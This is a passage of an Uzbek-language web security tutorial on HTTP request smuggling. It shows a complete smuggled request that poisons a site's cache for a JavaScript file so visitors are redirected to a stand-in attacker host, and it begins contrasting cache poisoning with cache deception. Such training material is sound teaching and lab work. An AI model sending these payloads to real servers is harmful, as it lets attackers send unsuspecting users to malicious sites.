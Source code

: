 ```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 59
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /static/include.js HTTP/1.1
Host: vulnerable-website.com
```

Smuggled request, back-end serverga yetib boradi, u avvalgidek off-site redirect bilan javob beradi. Front-end serveri bu javobni ikkinchi so'rovdagi URL manziliga qarshi keshlaydi, ya'ni /static/include.js:

```http
GET /static/include.js HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```

Bundan keyin, foydalanuvchilar ushbu URL ga so'rov yuborishsa, sayt ularni haker tomonidan yozilgan web saytga yo'naltirib yuboraveradi.

:::caution **Lab**
 [Web Cache zararlashda HTTP Request Smugglingni exploit qilish ≫](https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-poisoning)
:::

## Web Cacheni aldashda HTTP Request Smugglingdan foydalanish <a href="#web-cache-poisoning-ni-amalga-oshirish-uchun-http-request-smuggling-dan-foydalanish" id="web-cache-poisoning-ni-amalga-oshirish-uchun-http-request-smuggling-dan-foydalanish"></a>

Hali yana bir xujum turi mavjud bo'lib siz Web Cache Deception orqali HTTP Request Smuggling hujumning kuchini oshira olasiz. Ushbu xujum Web Cache Poisoning xujumiga o'xshab ishlaydi ammo boshqa boshqa maqsadlarda ishlatiladi.

:::caution **Web Cache Poisoning va Web Cache Deception orasida qanday farq bor ?**

* **Web Cache Poisoning**da Haker web sayt keshiga bir qancha zararli kontentni kiritadi va u kontent boshqa foydalanuvchilarga ham ta'sir o'tkazadi
* **Web Cache Deception**da Haker web saytdagi boshqa bir foydalanuvchining keshlariga bir qancha maxfiy kontentni kiritadi va uni keshdan oladi.
:::

Bu usulda haker Request Smuggling qilib foydalanuvchiga tegishli bir qancha maxfiy ma'lumotlarni qabul qilmoqda. Masalan:
